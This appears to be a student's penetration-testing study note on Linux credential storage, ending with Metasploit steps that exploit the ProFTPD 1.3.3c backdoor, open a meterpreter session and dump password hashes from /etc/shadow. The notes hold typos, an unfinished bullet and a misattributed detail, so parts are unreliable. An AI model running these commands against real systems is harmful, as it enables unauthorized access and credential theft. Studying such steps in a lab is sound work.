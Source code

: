 * Linux has multi-user support --> advantage and disadvantage at the same time
* **Where is all the information for all accounts on Linux is stored**
* `/etc/passwd`

* **Where are all the encrypted passwords stored**
* `/etc/shadow/`

* **Which is the only account that can access and read the shadow file**
* 'root' account

* **In the passwd file, what is the significance of the number after the usernmae encapsulated by $ sign**
  * It denotes the types of hashing algorithm to generate hashes for the passwords
  * $1 = MD5
  * $2 = Blowfish
  * $5 = SHA-256
  * $6 = SHA-512

  ### PRACTICAL
  * `use exploit/unix/ftp/proftpd_133c_backdoor` --> 
  * `setg rhosts [Target IP]`
  * `run` --> This should provide a command shell which we can esclate to a meterpreter session
  *  `ctrl + z` --> to exit the command shell
  *  'sessions` --> Lsit the current sessions
  *  'sessions - [ID of the session in the above list]` --> Upgrades the session
  *  The above command can throw some errors but it is ok as long as we can obtain a meterpreter session
  *  `session [ID in the list running meterpreter session]`
  *  **To dump the hashes Method 1** --> `cat /etc/shadow`
  *  **To dump the hashes Method 2** --> `use post/linux/gather/hashdump` --> `set session [ID of the meterpreter session]`
  *  **To find plain text passwords of the users** --> `
  *  We can notice if the root hash starts with $6 --> which would mean that it is encrypted using the SHA-512 algorithm.
  *  User accounts --> Starts with a hash code  **Service accounts** --> Starts with *
 
* **Extraz** -->
  * Why start Postgresql with msfconsole
    *  start the postgresql database server on the attacker machine. We are starting postgresql to store all metasploit loot and other sensitive information from the target machine.
